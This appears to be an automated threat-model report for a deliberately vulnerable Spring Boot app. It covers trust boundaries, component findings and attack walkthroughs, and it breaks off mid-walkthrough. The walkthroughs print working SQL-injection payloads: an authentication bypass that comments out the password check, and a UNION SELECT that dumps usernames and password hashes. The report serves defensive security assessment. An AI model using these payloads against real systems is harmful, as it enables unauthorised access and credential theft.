

**Findings** (full detail in [§8 Findings Register](#8-findings-register)): [F-001](#f-001) · [F-002](#f-002) · [F-003](#f-003) · [F-004](#f-004) · [F-005](#f-005) · [F-006](#f-006) · [F-007](#f-007) · [F-008](#f-008) · [F-009](#f-009) · [F-010](#f-010)

---

## 1. System Overview

**Repository:** git@github\.com:matthiasrohr/insecure-spring-`app.git`

### Scope

insecure-spring-app comprises **5** modeled components. This threat model applied full STRIDE threat analysis to **4 of 5** - the components on the externally-reachable, authentication-bearing, and business-critical surface: **Spring Boot Web Application**, **H2 In-Memory Database**, **Legacy SQLite Auth Backend**, **Docker Container Image**. Selection criteria: internet-exposed; crown-jewel; auth; AI/LLM surface; ci-cd / deployment; light depth.

The remaining **1** component(s) were **not individually analyzed** at this assessment depth (lower-priority / internal surface): Local Filesystem Storage. Re-run at a higher `--assessment-depth` to extend STRIDE coverage to them.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

### Trust Boundaries

Canonical boundary crossings. **Assumption & verdict** names the condition that makes each crossing safe and whether this report still supports it, judged one condition at a time - which conditions apply follows from the direction of the crossing.

| ID | Boundary / crossing | Exposure | Kind | Assumption & verdict | Linked findings |
|----|----------------------|----------|----------------------|----------------------|--------------------|
| <a id="tb-1"></a>tb-1 | **external → spring-app**<br>Control: Spring Security SecurityFilterChain | 🌐 **External** | network | Every route that requires authentication is covered by Spring Security's SecurityFilterChain authorization rules.<br>Validation: **broken** · 7 related · [§6.6](#66-input-boundary-validation-controls)<br>Authentication: **broken** · 4 related · [§6.2](#62-identity-and-authentication-controls)<br>Authorization: **broken** · [§6.4](#64-authorization-controls) | _Validation_<br>🔴 [F-003](#f-003)<br>_Authentication_<br>🔴 [F-006](#f-006)<br>🔴 [F-009](#f-009)<br>🔴 [F-012](#f-012)<br>🔴 [F-046](#f-046)<br>_Authorization_<br>🔴 [F-010](#f-010)<br>🔴 [F-045](#f-045) |
| <a id="tb-2"></a>tb-2 | **external → container-image**<br>Control: none identified | 🌐 **External** | build pipeline · operator | All base images and installed packages are pinned to verified digests.<br>Validation: **broken** · [§6.6](#66-input-boundary-validation-controls)<br>Authentication: **broken** · 1 related · [§6.2](#62-identity-and-authentication-controls)<br>Authorization: _not examined_ · [§6.4](#64-authorization-controls) | _Validation_<br>🟠 [F-049](#f-049)<br>_Authentication_<br>🟠 [F-021](#f-021) |
| <a id="tb-3"></a>tb-3 | **spring-app → h2-database**<br>Control: none identified | 🔒 **Internal** | in-process - enforcement interface, no trust transition | Every query reaches H2 through JPA parameterized binding, not string concatenation.<br>Query construction: **broken** · [§6.5](#65-query-construction-and-data-access-controls) | _Query construction_<br>🔴 [F-004](#f-004) |
| <a id="tb-4"></a>tb-4 | **spring-app → file-storage**<br>Control: none identified | 🔒 **Internal** | in-process - enforcement interface, no trust transition | Every filesystem path is canonicalized against the runtime/documents base directory before file access.<br>Query construction: **broken** · [§6.5](#65-query-construction-and-data-access-controls) | _Query construction_<br>🔴 [F-001](#f-001) |
| <a id="tb-5"></a>tb-5 | **spring-app → sqlite-auth**<br>Control: LegacySqliteUserStore PreparedStatement binding | 🔒 **Internal** | in-process - enforcement interface, no trust transition | Credential verification uses the parameterized `authenticate()` method exclusively.<br>**In doubt** - 1 finding(s) in the components it covers, none linked here. | - |
| <a id="tb-6"></a>tb-6 | **spring-app → external**<br>Control: none identified | ↗ **Egress** | network · operator | Outbound HTTP requests target only an allow-listed set of destinations.<br>Egress content: _not examined_<br>Egress destination: **broken** · [§6.10](#610-file-parser-and-outbound-request-controls)<br>Response trust: _not examined_ | _Egress destination_<br>🟠 [F-038](#f-038) |

_Exposure, most exposed first: ⚠ Review (endpoints unresolved) · 🌐 External (reached from outside the model) · ◐ Unverified (crossing not confirmed) · 🔒 Internal (both ends modelled) · ↗ Egress (reaches outside the model)._

_Kind - the crossing mechanism (build pipeline, in-process, network), then after `·` what changes across it: data-origin, identity, operator, privilege, tenant. Shown alone, nothing changes._

_Conditions - **inbound**: validation, authentication, authorization · **outbound**: egress content, egress destination, response trust (replies are untrusted input) · **internal**: query construction (data never becomes program text), authentication, authorization._

_Verdict per condition - **broken**: a linked finding proves the gap · in doubt: related findings, none linked here · not examined: nothing bears on it. `N related` counts further findings on the same condition. Linked findings sit under the condition they break, or under _Unattributed_. A link raises effective severity only at a confirmed internet ingress; raw risk never changes._

_Identical on every row, so stated once here instead of in a column: source `detected` (derived from inspected repository evidence); confidence `confirmed`; status `resolved`. Any row that deviates is shown in the table._

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with insecure-spring-app from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).



*Trust boundaries not named above: spring-app → h2-database (tb-3), spring-app → sqlite-auth (tb-5), spring-app → file-storage (tb-4), spring-app → external (tb-6) - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** Every actor in the context interacts with insecure-spring-app through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



*Trust boundaries not drawn above: spring-app → h2-database (tb-3), spring-app → sqlite-auth (tb-5), spring-app → file-storage (tb-4), spring-app → external (tb-6) - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** The system decomposes into 0 client, 3 application and 2 data unit(s); Spring Boot Web Application carries the most Critical findings (8) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Browser code runs on the user's device, so the client column is part of the untrusted zone, not a zone of its own - trust changes only where traffic enters the Application tier. Solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).



*Trust boundaries crossed by the `==>` edges above: external → spring-app (tb-1), external → container-image (tb-2) - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** Spring Boot Web Application concentrates the most findings (39 of 51 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats | Scope |
|----|----------------------|-----------|----------------------------------------|------------------------------------------------|------------|
| <a id="c-01"></a><a id="spring-app"></a><span style="white-space:nowrap">C-01</span> | Spring Boot Web Application | application | `src/`<br/>`pom.xml`<br/>`src/main/**` | 🔴 🔴 [F-001](#f-001) — SQL Injection Authentication Bypass in authenticateRaw (`LegacySqliteUserStore.java:64`)<br/>🔴 🔴 [F-002](#f-002) — JWT parsed without signature verification (`LegacyJwtVerifier.java:17`)<br/>🔴 🔴 [F-003](#f-003) — OS Command Injection via Name Parameter (`ToolController.java:18`)<br/>🔴 🔴 [F-004](#f-004) — SQL Injection (`OrderLookupDao.java:22`)<br/>🔴 🔴 [F-006](#f-006) — H2 Web Console Exposed Without Authentication Allowing Full Database Access (`SecurityConfig.java:32`)<br/>🔴 🔴 [F-007](#f-007) — Unauthenticated GET /api/legacy-sqlite/users Returns All Plaintext Passwords (`LegacySqliteAuthController.java:65`)<br/>🔴 🔴 [F-009](#f-009) — Legacy Admin Board Fully Open Without Authentication (`SecurityConfig.java:41`)<br/>🔴 🔴 [F-010](#f-010) — Mass Assignment Privilege Escalation via PUT /api/profile/me (ProfileController) (`ProfileController.java:44`)<br/>🔴 🔴 [F-012](#f-012) — Unsigned JWT Accepted by LegacyJwtVerifier (algorithm none) (`LegacyJwtVerifier.java:15`)<br/>🟠 🟠 [F-013](#f-013) — Trivially Guessable Default Credentials Seeded at Startup (`admin/password`) (`SecurityConfig.java:79`)<br/>🟠 🟠 [F-014](#f-014) — Forged Session Token via Base64-Encoded User ID (HomegrownSessionService) (`HomegrownSessionService.java:21`)<br/>🔴 🔴 [F-015](#f-015) — Hardcoded Weak Seed Credentials for legacy_admin Account (`LegacySqliteUserStore.java:37`)<br/>🟠 🟠 [F-016](#f-016) — Command injection Java (`ToolController.java:18`)<br/>🟠 🟠 [F-017](#f-017) — Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:14`)<br/>🟠 🟠 [F-018](#f-018) — Hand-rolled XOR / repeating-key cipher (`HomegrownCipher.java:23`)<br/>🟠 🟠 [F-019](#f-019) — Non-cryptographic RNG in a security module Java (`LegacyTokenService.java:10`)<br/>🟠 🟠 [F-023](#f-023) — CSRF Protection Globally Disabled in SecurityConfig (`SecurityConfig.java:28`)<br/>🟠 🟠 [F-024](#f-024) — Homegrown CSRF Token Validates Presence Only, Not Value (CsrfSettingsController) (`CsrfSettingsController.java:47`)<br/>🟠 🟠 [F-025](#f-025) — Unrestricted File Upload with No MIME Type or Extension Validation (`BusinessFileStorage.java:17`)<br/>🟠 🟠 [F-026](#f-026) — XML External Entity Injection in XmlPreviewController (XXE) (`XmlPreviewController.java:22`)<br/>🟠 🟠 [F-028](#f-028) — Cleartext Credentials Written to Application Logs (CredentialLoggingFilter) (`CredentialLoggingFilter.java:25`)<br/>🟠 🟠 [F-029](#f-029) — No Audit Logging for User Privilege Operations in LegacyAdminBoardController (`LegacyAdminBoardController.java:29`)<br/>🟠 🟠 [F-031](#f-031) — `Package-lock.json` present and committed (`package-lock.json:0`)<br/>🟠 🟠 [F-033](#f-033) — Path Traversal via Name Parameter in (`FileReadController.java:19`)<br/>🟠 🟠 [F-034](#f-034) — Spring Actuator Fully Exposed with show-values:ALWAYS and No Authentication (`application.yml:33`)<br/>🔴 🔴 [F-035](#f-035) — AES/ECB Mode with Hardcoded Key in LegacyCryptoService (`LegacyCryptoService.java:13`)<br/>🔴 🔴 [F-036](#f-036) — XOR Cipher with Hardcoded Key Used for Password Storage (HomegrownCipher) (`HomegrownCipher.java:8`)<br/>🟠 🟠 [F-037](#f-037) — MD5 Used for Password Hashing in LegacyPasswordService (`LegacyPasswordService.java:15`)<br/>🟠 🟠 [F-038](#f-038) — Server-Side Request Forgery via Unrestricted URL Fetch (`IntegrationController.java:23`)<br/>🔴 🔴 [F-039](#f-039) — CORS Policy Reflects Any HTTP/HTTPS Origin with Allow-Credentials:true (`CorsPolicyFilter.java:31`)<br/>🟠 🟠 [F-041](#f-041) — Passwords Stored in Plaintext Without Hashing in Legacy SQLite Store (`LegacySqliteUserStore.java:100`)<br/>🟠 🟠 [F-042](#f-042) — No Rate Limiting on Authentication Endpoints Enables Credential Brute Force (`SecurityConfig.java:50`)<br/>🟠 🟠 [F-043](#f-043) — XXE Exponential Entity Expansion Enables Memory Exhaustion (`XmlPreviewController.java:22`)<br/>🔴 🔴 [F-045](#f-045) — Insecure Direct Object Reference (`OrderAccessController.java:24`)<br/>🔴 🔴 [F-046](#f-046) — Unauthenticated Admin Report Endpoint Discloses Aggregate User and Order Data (`SecurityConfig.java:34`)<br/>🟠 🟠 [F-047](#f-047) — Insecure ECB cipher mode Java (`LegacyCryptoService.java:17`)<br/>🟡 🟡 [F-048](#f-048) — Broken hash primitive Java (`LegacyPasswordService.java:15`)<br/>🟡 🟡 [F-050](#f-050) — No Audit Logging on Authentication and Registration Endpoints (`LegacySqliteAuthController.java:26`)<br/>🟡 🟡 [F-052](#f-052) — No Password Minimum Length Policy on User Registration (RegistrationController) (`RegistrationController.java:41`) | Analyzed |
| <a id="c-02"></a><a id="h2-database"></a><span style="white-space:nowrap">C-02</span> | H2 In-Memory Database | data | `src/main/resources/application.yml` | 🔴 [F-008](#f-008) — Missing Authentication on H2 SQL Console (`application.yml:11`)<br/>🟠 [F-011](#f-011) — Empty H2 Datasource Password (`application.yml:8`)<br/>🟠 [F-022](#f-022) — H2 Console Clickjacking via sameOrigin Frame Policy (`application.yml:11`)<br/>🟠 [F-027](#f-027) — No Audit Log for H2 Console SQL Queries (`application.yml:16`) | Analyzed |
| <a id="c-03"></a><a id="sqlite-auth"></a><span style="white-space:nowrap">C-03</span> | Legacy SQLite Auth Backend | data | `runtime/legacy-auth.sqlite`<br/>`src/main/java/com/example/insecure/legacysqlite/**` | 🟠 [F-040](#f-040) — SQLite Credential Database Baked Into Docker Image via COPY . /app (`legacy-auth.sqlite`) | Analyzed |
| <a id="c-04"></a><a id="file-storage"></a><span style="white-space:nowrap">C-04</span> | Local Filesystem Storage | data | `runtime/uploads/`<br/>`runtime/documents/`<br/>`src/main/java/com/example/insecure/fileread/**` | - | Out of scope |
| <a id="c-05"></a><a id="container-image"></a><span style="white-space:nowrap">C-05</span> | Docker Container Image | application | `Dockerfile` | 🔴 [F-005](#f-005) — Hardcoded Secrets in Dockerfile ENV Layers (`Dockerfile`) (`Dockerfile:12`)<br/>🟠 [F-021](#f-021) — Remote Script Pipe Without Integrity Verification (`Dockerfile`) (`Dockerfile:21`)<br/>🟠 [F-030](#f-030) — Dockerfile base image must be digest-pinned (`Dockerfile:1`)<br/>🟠 [F-032](#f-032) — Cleartext Credential Store Baked into Image (`Dockerfile`) (`Dockerfile:18`)<br/>🟠 [F-044](#f-044) — Application Container Runs as Root Without USER Directive (`Dockerfile`) (`Dockerfile:31`)<br/>🟠 [F-049](#f-049) — Mutable Base Image Tag Without Digest Pin (`Dockerfile`) (`Dockerfile:4`)<br/>🟡 [F-051](#f-051) — Dockerfile USER directive (non-root) (`Dockerfile:1`) | Screened |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** The stack spans 2 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** `-->` synchronous request/response (REST, HTTPS, gRPC) · `==>` crosses an untrusted trust boundary (security-critical) · **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the **8 highest-priority of 10 Critical findings** are exploited - the chain entry points and those closest to a breach. Each walkthrough has attack steps, a focused sequence diagram, and the primary mitigation. How weaknesses combine toward the worst-case goal is in the [Critical Attack Tree](#critical-attack-tree); every other Critical, plus full per-finding context (severity rationale, assets, detection signals), is in the [§8 Findings Register](#8-findings-register).

### 3.1 SQL Injection Authentication Bypass in authenticateRaw

**Source:** 🔴 [F-001](#f-001) — `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Spoofing. See [§8 F-001](#f-001) for the full register row.

**Attack Steps**

1. An attacker sends GET `/api/legacy-sqlite/login-raw?username`=`legacy_admin`%27+--&password=**** to the unauthenticated public endpoint.
2. The attacker-supplied username reaches `authenticateRaw()` and is concatenated directly into the SQL string, producing a query that comments out the password check.
3. The attacker receives HTTP 200 with status=accepted and role=ADMIN, gaining an authenticated admin session without knowing the actual password.

**Sequence Diagram**



**Key takeaway:** Until ● [M-001](#m-001) (Use parameterized database queries) lands, 🔴 [F-001](#f-001) is exploitable at `src/main/java/com/example/appsecverificationtarget/authentication/LegacySqliteUserStore.java:64` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ● [M-001](#m-001) (Use parameterized database queries)

### 3.2 JWT parsed without signature verification src/main/java/com/example/appsecver…

**Source:** 🔴 [F-002](#f-002) — `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Tampering. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. parseClaimsJwt accepts an unsigned token: an attacker mints arbitrary claims (sub, roles, scope) with no key.
2. Only the *Jws / parseSignedClaims variants verify the signature.

**Sequence Diagram**



**Key takeaway:** Until ● [M-002](#m-002) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-002](#f-002) is exploitable at `src/main/java/com/example/appsecverificationtarget/authentication/LegacyJwtVerifier.java:17` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ● [M-002](#m-002) (Enforce JWT signature and algorithm verification)

### 3.3 SQL Injection in Spring Boot Web Application

**Source:** 🔴 [F-004](#f-004) — `src/main/java/com/example/appsecverificationtarget/inputvalidation/OrderLookupDao.java:22`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. An unauthenticated attacker sends GET `/api/orders/search?email=`' UNION SELECT 1,username,`password_hash`,email,email,1 FROM `app_users`--.
2. OrderLookupDao:22 concatenates the value directly into the SQL string, producing a UNION query against `app_users`.
3. H2 executes the injected UNION and returns all usernames and BCrypt password hashes in the orders response.
4. An attacker cracks the BCrypt hashes offline, obtaining plaintext credentials for all accounts including admin.

**Sequence Diagram**

